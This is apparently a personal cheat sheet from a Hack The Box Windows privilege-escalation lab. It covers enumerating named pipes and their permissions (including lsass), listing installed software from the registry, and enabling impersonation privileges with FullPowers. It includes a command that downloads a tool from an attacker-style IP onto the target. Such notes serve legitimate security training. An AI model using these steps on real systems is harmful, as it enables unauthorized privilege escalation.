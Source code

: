 **Listing Named Pipes:**

- Download pipelist.exe from [https://learn.microsoft.com/en-us/sysinternals/downloads/pipelist](https://learn.microsoft.com/en-us/sysinternals/downloads/pipelist)
```python
pipelist.exe /accepteula
#or 
gci \\.\pipe\
#or
Get-ChildItem "\\.\pipe\" | Where-Object { -not $_.PsIsContainer } | ForEach-Object { Write-Output "Named Pipe: $($_.FullName)" }
```

**Enumerating Permissions:**

- Download accesschk from [https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
- Download accesschk:
```python
Invoke-WebRequest -Uri "http://10.10.16.100:8080/accesschk64.exe" -OutFile "C:\Users\htb-student\Desktop\accesschk64.exe"
```

- Execute accesschk:
```python 
accesschk /accepteula \\.\Pipe\lsass -v #for lsass
#with powershell 
.\accesschk64.exe \pipe\SQLLocal\SQLEXPRESS01 -v 
```

- Get Installed Programs via PowerShell & Registry Keys

```powershell
PS C:\htb> $INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation

PS C:\htb> $INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation

PS C:\htb> $INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```

###  Windows User Privileges
#### NT AUTHORITY / LOCAL SERVICE

https://github.com/itm4n/FullPowers

- Enable privilege like impersonate : 
```sh
whoami
FullPower.exe
```
#### SeImpersonate and SeAssignPrimaryToken:
#SeImpersonate  #SeAssignPrimaryToken
